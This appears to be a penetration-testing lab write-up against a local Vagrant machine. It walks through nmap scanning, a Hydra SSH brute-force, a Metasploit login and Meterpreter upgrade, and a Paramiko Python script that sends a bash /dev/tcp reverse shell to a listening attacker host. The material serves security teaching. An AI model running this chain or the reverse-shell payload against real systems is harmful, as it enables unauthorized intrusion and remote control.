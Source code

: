 # Phase 1: Exploitation and Reverse Shell

## Task 1.1: Compromise the target using Metasploit

### Service Targeted
- **Service**: SSH (OpenSSH 6.6.1p1)
- **Vulnerable Credentials**: `vagrant:vagrant`

### Steps Followed:
1. **Reconnaissance**:
   ```bash
   nmap -sV 192.168.142.131
   ```
   - Identified OpenSSH running on port 22

2. **Brute-Force with Hydra**:
   ```bash
   hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.142.131 -t 4
   ```
   - Discovered working credentials: `vagrant:vagrant`

3. **Exploit with Metasploit**:
   ```
   sudo msfconsole
   use auxiliary/scanner/ssh/ssh_login
   set RHOSTS 192.168.142.131
   set USERNAME vagrant
   set PASSWORD vagrant
   run
   ```
   - SSH shell session established

4. **Upgrade to Meterpreter**:
   ```
   use post/multi/manage/shell_to_meterpreter
   set SESSION 1
   session 1 
   shell
   ```
   - Upgraded shell to Meterpreter session


## ✅ Task 1.2: Exploit via Custom Python Script

### Script Summary
- Used Python with Paramiko to automate SSH login and trigger a reverse shell.

### Python Script: `ssh_reverse_shell_1.2.py`
```python
import paramiko

target_ip = "192.168.142.131"
username = "vagrant"
password = "vagrant"
lhost="192.168.142.129"
lport = "4444"

payload = f"bash -c 'bash -i >& /dev/tcp/{lhost}/{lport} 0>&1'"

client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
client.connect(target_ip, username=username, password=password)
client.exec_command(payload)

client.close()
```

### Listener on Attacker Machine
```bash
nc -lvnp 4444
```
- Successful reverse shell received.

---

📸 Screenshots to Include:
- Hydra output showing credentials found
- Metasploit SSH login success
- Meterpreter session after upgrade
- Netcat receiving reverse shell
- Python script execution

